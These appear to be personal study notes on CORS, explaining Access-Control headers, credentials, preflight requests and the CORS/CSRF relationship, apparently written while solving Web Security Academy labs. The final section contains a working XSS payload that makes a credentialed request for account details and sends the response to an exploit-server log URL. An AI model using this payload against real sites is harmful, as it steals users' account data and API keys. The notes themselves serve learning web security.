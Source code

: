 ```yaml
---
tags:
  - cors
  - sop
---
```

[[SOP]]
[[ Cross-Origin Resource Sharing (CORS) Complete Guide  RaniaKhalil]]
[[LabsSolved]]

### CORS and the Access-Control-Allow-Origin Response Header

#### What is CORS?

- Cross-Origin Resource Sharing (CORS) is a specification that allows controlled relaxation of the same-origin policy.
- It permits HTTP requests from one domain to another through the use of specific HTTP headers.
- Browsers use these headers to permit or deny access to responses of cross-origin requests.

#### Access-Control-Allow-Origin Response Header

- This header is included in a response to identify the permitted origin of a request.
- A browser compares this header with the requesting website's origin and permits access if they match.

**Example:**

- Request from `normal-website.com` to `robust-website.com`:
    
    http
    

- `GET /data HTTP/1.1 Host: robust-website.com Origin: https://normal-website.com`
    
- Response from `robust-website.com`:
    
    http
    

- `HTTP/1.1 200 OK Access-Control-Allow-Origin: https://normal-website.com`
    
- Browser allows code from `normal-website.com` to access the response.

#### Implementing Simple Cross-Origin Resource Sharing

- CORS uses specific headers to restrict origins for web resource requests.
- **Key Header:** `Access-Control-Allow-Origin`
- **Example Values:**
    - Single Origin: `Access-Control-Allow-Origin: https://normal-website.com`
    - Wildcard: `Access-Control-Allow-Origin: *` (restricts credentials usage)

#### Handling Cross-Origin Requests with Credentials

- By default, cross-origin requests exclude credentials like cookies and authorization headers.
- To include credentials:
    - Request:
        
        http
        

- `GET /data HTTP/1.1 Host: robust-website.com Origin: https://normal-website.com Cookie: JSESSIONID=<value>`
    
- Response:
    
    http
    

- - `HTTP/1.1 200 OK Access-Control-Allow-Origin: https://normal-website.com Access-Control-Allow-Credentials: true`
        
- **Note:** Wildcards (*) cannot be used with `Access-Control-Allow-Credentials`.

#### Relaxation of CORS with Wildcards

- **Allowed:** `Access-Control-Allow-Origin: *`
- **Not Allowed:** `Access-Control-Allow-Origin: https://*.normal-website.com`
- **Security Restriction:** Cannot combine `*` with `Access-Control-Allow-Credentials: true`.

#### Dynamic Creation of Access-Control-Allow-Origin

- Some servers dynamically generate the `Access-Control-Allow-Origin` header based on the client's origin.
- This approach can be insecure and prone to exploitation.

#### Pre-Flight Checks

- Pre-flight checks protect legacy resources from expanded request options allowed by CORS.
- Triggered for non-standard HTTP methods or headers.
- **Pre-flight Request Example:**
    
    http
    

- `OPTIONS /data HTTP/1.1 Host: robust-website.com Origin: https://normal-website.com Access-Control-Request-Method: PUT Access-Control-Request-Headers: Special-Request-Header`
    
- **Pre-flight Response Example:**
    
    http
    

- `HTTP/1.1 204 No Content Access-Control-Allow-Origin: https://normal-website.com Access-Control-Allow-Methods: PUT, POST, OPTIONS Access-Control-Allow-Headers: Special-Request-Header Access-Control-Allow-Credentials: true Access-Control-Max-Age: 240`
    
- This response allows the methods and headers specified and permits credentials. `Access-Control-Max-Age` defines how long the pre-flight response can be cached.

#### CORS and CSRF

- **CORS does not protect against CSRF** (Cross-Site Request Forgery) attacks.
- Misconfigured CORS can increase CSRF risks.
- CSRF attacks can occur via HTML forms or cross-domain resource includes without using CORS.

### Summary

- **CORS** relaxes the same-origin policy under controlled conditions using HTTP headers.
- **Key Header:** `Access-Control-Allow-Origin`
- **Credentials:** Use `Access-Control-Allow-Credentials` to include credentials.
- **Wildcards:** Limited usage to maintain security.
- **Pre-Flight Checks:** Ensure non-standard requests are safe.
- **CSRF Protection:** CORS is not a defense mechanism against CSRF.

# Exploiting XSS VIA CORS trust relationships 
- Attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information .
- Given the following request:

`GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...`

If the server responds with:

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`
Like doing something with the api-key but using JS at the targets pc. 
#  Breaking TLS with poorly configured CORS
- If CORS mechanism accepts https and HTTP  then : 
	- 

```javascript
<script> document.location="http://stock.0ac2003903304cfc805b7bc100fd00ed.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ac2003903304cfc805b7bc100fd00ed.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5900d203994c8d80617a3d018d0098.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```